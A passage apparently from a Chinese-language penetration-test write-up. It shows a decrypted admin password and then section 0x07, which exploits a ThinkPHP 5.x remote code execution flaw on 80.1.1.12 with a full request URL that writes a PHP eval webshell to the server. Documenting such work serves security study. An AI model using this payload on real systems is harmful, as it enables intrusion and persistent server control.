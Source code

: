 解密得到 密码 admin@12345+

![图片.png](assets/1698900855-9434c13a1ebbd73d78c16e7169b306f0.png)

# 0x07 80.1.1.12 ThinkPHP5.x 远程代码执行

熟系的首页，以及醒目的 ThinkPHP

![图片.png](assets/1698900855-192b509b37282dd959dca3951994c7ea.png)  
发现其果然存在远程命令执行漏洞，利用远程命令执行漏洞写入 webshell：

```php
http://80.1.1.12/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=echo%20^%3C?php%20@eval($\_REQUEST\[%22cmd%22\])?^%3E%3Eshell.php
```

